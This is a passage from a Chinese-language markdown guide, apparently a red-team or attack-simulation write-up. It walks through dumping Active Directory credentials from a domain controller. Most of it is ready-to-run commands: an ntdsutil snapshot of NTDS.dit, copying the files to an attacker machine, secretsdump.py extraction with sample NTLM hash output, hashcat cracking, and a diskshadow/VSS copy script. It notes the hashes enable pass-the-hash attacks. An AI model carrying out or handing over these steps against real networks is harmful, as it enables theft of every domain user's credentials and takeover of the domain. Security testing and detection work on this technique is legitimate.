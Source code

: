 2. **创建NTDS.dit快照**：
   在域控制器上执行：
   ```cmd
   ntdsutil "activate instance ntds" "ifm" "create full C:\Temp\ntds_dump" quit quit
   ```
   - 输出路径：`C:\Temp\ntds_dump\ntds.dit`和`C:\Temp\ntds_dump\registry\SYSTEM`。

3. **复制文件到攻击机**：
   将`ntds.dit`和`SYSTEM`文件通过SMB或HTTP传输到攻击机。

4. **使用Secretsdump提取哈希**：
   在攻击机上运行：
   ```bash
   secretsdump.py -ntds C:\Temp\ntds.dit -system C:\Temp\system.hiv LOCAL
   ```
   - 示例输出：
     ```
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     user1:1001:aad3b435b51404eeaad3b435b51404ee:a2345375a47a92754e2505132aca194b:::
     ```

5. **破解哈希**：
   使用hashcat破解NTLM哈希：
   ```bash
   hashcat -m 1000 -a 0 ntlm_hashes.txt wordlist.txt
   ```

![ntds0](https://s2.ax1x.com/2020/01/14/lqUbDJ.png)

6. **结果分析**：
   - 成功：提取域用户的NTLM哈希，可用于密码破解或传递哈希攻击。
   - 失败可能：
     - 缺乏域管理员权限。
     - 快照创建被防病毒软件阻止。
     - 文件传输被防火墙拦截。

#### 测试2：使用VSS和Diskshadow提取NTDS.dit
1. **创建Diskshadow脚本**：
   在域控制器上创建`diskshadow.txt`：
   ```txt
   create context persistent
   create
   exec copy_ntds.bat
   ```
   创建`copy_ntds.bat`：
   ```cmd
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp\system.hiv
   ```

2. **执行Diskshadow**：
   ```cmd
   diskshadow /s diskshadow.txt
   ```
